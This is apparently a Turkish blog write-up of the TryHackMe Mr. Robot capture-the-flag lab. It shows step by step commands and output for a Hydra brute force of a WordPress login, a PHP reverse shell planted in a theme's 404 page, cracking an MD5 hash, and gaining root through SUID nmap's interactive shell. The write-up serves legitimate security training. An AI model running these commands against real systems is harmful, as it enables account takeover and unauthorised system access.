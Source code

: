 ```yaml
---
title: 'TryHackMe | Mr. Robot CTF WriteUp'
author: appdone
categories: [TryHackMe Challenges]
tags: [wordpress, suid]
render_with_liquid: false
media_subpath: /images/tryhackme_mr_robot/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasında bulduğumuz robots.txt dosyası içerisinden bir parola listesi elde edecek ve bu parola listesini kullanarak wordpress uygulamasının kullanıcı adını ve parolasını öğreneceğiz. Daha sonra siteye giriş yapacak ve temalar vasıtasıyla sisteme reverse shell kodumuzu yükleyeceğiz. Sisteme girdikten sonra bir md5 hash'i ile karşılaşacak, onu kıracak ve robot kullanıcısına geçeceğiz. SUID izinlerine sahip dosyaları kontrol ettiğimizde ise nmap dosyasını fark edecek ve onu kullanarak yetki yükselteceğiz.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.223.141
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-22 03:45 EDT
Nmap scan report for 10.10.223.141
Host is up (0.070s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
```

Tarama sonucunda 22, 80 ve 443 numaralı portların açık olduğunu öğreniyoruz. Daha fazla bilgi edinmek adına web uygulamasını ziyaret edelim.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="1200" height="600" }

Ana sayfada bir komut satırının açıldığını görüyoruz. Buradaki hiçbir komut önemli bir bilgi barındırmıyor. Dirsearch aracını kullanarak bir dosya/dizin taraması yapalım.

```console
$ dirsearch -u http://10.10.223.141/
...
[03:51:51] 200 -  614B  - /admin/               
[03:52:26] 403 -  214B  - /blog/                
[03:52:53] 200 -    0B  - /favicon.ico          
[03:53:05] 200 -  614B  - /index.html           
[03:53:15] 200 -  504KB - /intro                
[03:53:21] 403 -  212B  - /js/                  
[03:53:35] 200 -  158B  - /license              
[03:53:35] 200 -  158B  - /license.txt
[03:56:05] 200 -   64B  - /readme               
[03:56:05] 200 -   64B  - /readme.html          
[03:56:19] 200 -   41B  - /robots.txt           
[03:56:56] 200 -    0B  - /sitemap              
[03:58:56] 200 -    0B  - /wp-config.php        
[03:58:58] 200 -    0B  - /wp-content/          
...
```

Bulunan dosya ve dizinleri teker teker kontrol ettim. Önemli olan tek bilgi robots.txt dosyasının içerisinde.

```
fsocity.dic
key-1-of-3.txt
```

key-1-of-3.txt dosyasında bulmamız gereken üç bayraktan biri bulunuyor. fsocity.dic dosyasında ise bir parola listesi bulunuyor. Bu parola listesini kullanmadan önce kullanıcıları öğrenmek için wpscan aracını kullandım. Ancak bir kullanıcı bile bulamadı. Rastgele kullanıcı bilgileri girerek, formu test ettiğimizde "kullanıcı geçersiz" şeklinde bir uyarı ile karşılaşıyoruz.

![](2.webp){: width="1200" height="600" }

Hydra aracını kullanarak bu zafiyeti sömürecek ve kullanıcı isimlerini öğreneceğiz.

## Sömürü aşaması

```console
$ hydra -L fsocity.dic -p appdone 10.10.223.141 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username"
...
[DATA] attacking http-post-form://10.10.223.141:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username
[80][http-post-form] host: 10.10.223.141   login: elliot   password: appdone
...
```

elliot adında bir kullanıcı var olduğunu öğrendik. Bu kullanıcının parolasını bulmak için parametreleri değiştirip tekrar deneme-yanılma saldırısını başlatalım.

```console
$ $hydra -l elliot -P fsocity.dic 10.10.223.141 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username"
...
[DATA] attacking http-post-form://10.10.223.141:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:The password you entered for the username
[80][http-post-form] host: 10.10.223.141   login: elliot   password: ER28-0652
...
```

Daha sonra php reverse shell yüklemek için siteye giriş yapıyoruz. Temalar sayfasından kullanılan temanın 404 sayfasına php shell'imizi ekleyelim.

![](3.webp){: width="1200" height="600" }

Ekledikten sonra olmayan bir sayfayı açmaya çalıştığımızda sistemden bir shell elde ediyoruz.

![](4.webp){: width="1200" height="600" }

## Yetki yükseltme

### robot

/home/robot dizininde ikinci bayrak ve kullanıcı parolasının md5 karşılığı bulunuyor.

```console
daemon@linux:/home$ cd robot/
daemon@linux:/home/robot$ ls
key-2-of-3.txt  password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt 
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca6*****
daemon@linux:/home/robot$
```

Bu hash'i [hashes.com](https://hashes.com/) yardımıyla kırdıktan sonra kullanıcıya geçiş yapıyor ve bayrağı alıyoruz.

```console
daemon@linux:/home/robot$ su robot
Password: 
robot@linux:~$ cat key-2-of-3.txt 
822***959
robot@linux:~$
```

### root

SUID yetkilerine sahip dosyaları listelediğimizde nmap aracınında bu listede olduğunu görüyoruz.

```console
robot@linux:~$ find / -perm -4000 2>/dev/null
...
/usr/local/bin/nmap
...
```

Aracın adını [gtfobins](https://gtfobins.github.io/gtfobins/nmap/#shell) sitesinde arattığımızda nasıl yetki yükseltebileceğimizi öğreniyor ve öğrendiğimizi uyguluyoruz.

```console
robot@linux:~$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=1002(robot) gid=1002(robot) euid=0(root) groups=0(root),1002(robot)
# cd /root
# ls
firstboot_done  key-3-of-3.txt
```
